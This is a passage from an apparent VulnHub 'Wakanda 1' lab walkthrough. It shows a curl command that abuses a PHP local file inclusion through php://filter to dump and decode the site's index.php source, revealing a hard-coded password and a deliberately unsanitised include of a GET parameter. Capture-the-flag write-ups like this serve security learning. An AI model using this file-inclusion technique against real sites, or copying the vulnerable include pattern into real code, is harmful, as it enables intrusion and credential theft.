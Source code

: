 ![1cf6a5ba.png](/assets/images/posts/wakanda-1-walkthrough/1cf6a5ba.png)

Indeed, let's clean it up with some Linux-fu.

```
# curl -s http://192.168.30.129/index.php?lang=php://filter/convert.base64-encode/resource=index | head -1 | base64 -d | sed -r '/^$/d'
```

Here's the output.

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it
if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}
?>
<!DOCTYPE html>
<html lang="en"><head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8">
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="Vibranium market">
    <meta name="author" content="mamadou">
    <title>Vibranium Market</title>
    <link href="bootstrap.css" rel="stylesheet">

    <link href="cover.css" rel="stylesheet">
  </head>
  <body class="text-center">
    <div class="cover-container d-flex w-100 h-100 p-3 mx-auto flex-column">
      <header class="masthead mb-auto">
        <div class="inner">
          <h3 class="masthead-brand">Vibranium Market</h3>
          <nav class="nav nav-masthead justify-content-center">
            <a class="nav-link active" href="#">Home</a>
```

[1]: https://www.vulnhub.com/entry/wakanda-1,251/
[2]: https://twitter.com/@xMagass
[3]: https://www.vulnhub.com/